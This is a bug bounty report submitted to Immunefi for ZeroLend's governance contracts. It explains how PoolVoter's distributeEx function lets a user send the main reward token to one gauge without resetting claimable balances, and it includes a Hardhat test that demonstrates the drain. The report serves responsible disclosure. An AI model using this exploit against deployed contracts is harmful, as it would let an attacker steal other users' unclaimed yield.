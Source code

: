 
# Malicious user can transfer all unclaimed rewards to a custom gauge

Submitted on Sat Mar 02 2024 19:16:07 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28955

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
A malicious user can distribute reward tokens to a specific pool gauge through distributeEx function at PoolVoter without resetting claimable mapping.


## Vulnerability Details
There are two distribute methods in PoolVoter. a distribute function, which is intended to transfer any claimable reward of a gauge and notifyRewardAmount in that gauge then reset claimable mapping , also 
there is a distributeEx function which is intended to distribute additional rewards proportionally to all gauges, it takes a rewards token address (a token that would be distributed ) and several pool addresses to distribute rewards, the distributed amount has been calculated based on pool weight proportion to the total weight. however, it doesn't check the token address provided as the parameter is not the main reward token, so the main reward token can be transferred through this function without resetting claimable mapping, which enables transferring more yield to a specific gauge, leading to a situation which contract doesn't have enough balance to distribute reward of other gauges. most rewards can transferred to a gauge to benefit the attacker.

## Impact Details
Malicious users can transfer more rewards to a gauge ( almost all rewards ), in favor of themselves, which is considered direct theft of unclaimed yields.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L181-L190
        
## Proof of concept
## Proof of Concept
  ```
describe("transfer rewards test", () => {
    it("Malicious user can transfer all rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // notify some zero token rewards to pool voter 
    await zero.connect(ant).approve(poolVoter.target, 1e6);
    await poolVoter.connect(ant).notifyRewardAmount(1e6);

    let gauge = poolVoter.gauges(reserve.target);
    let gauge2 = poolVoter.gauges(reserve2.target);

    // update status of both gauges 
    await poolVoter.updateFor(gauge);
    await poolVoter.updateFor(gauge2);

    // retrieve total claimable amount and pool voter contract balance 
    let totalClaimable = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balance = await zero.balanceOf(poolVoter);

    // ensure pool voter has enough balacne to distribute claimable rewards 
    expect(balance).greaterThanOrEqual(totalClaimable);

    // call distributeEx with zero token address to distribute rewards to first gauge without reseting its claimable mapping 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // retrieve total claimable and balance after distribution 
    let totalClaimableAfter = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balanceAfter = await zero.balanceOf(poolVoter);

    // currently balance is less than totalClaimable 
    // balance is decreased but totalClaimable has not been changed 
    // so there is not enough balance to cover distributing all rewards 
    expect(balanceAfter).lessThan(totalClaimableAfter);
    expect(balanceAfter).lessThan(balance);
    expect(totalClaimable).eq(totalClaimableAfter);

    // so we can claim rewards for first gauge again, transfering all rewards to first gauge and there is not balance to transfer reward of second gauge 
    await poolVoter["distribute(address)"](gauge);


    });
  });
```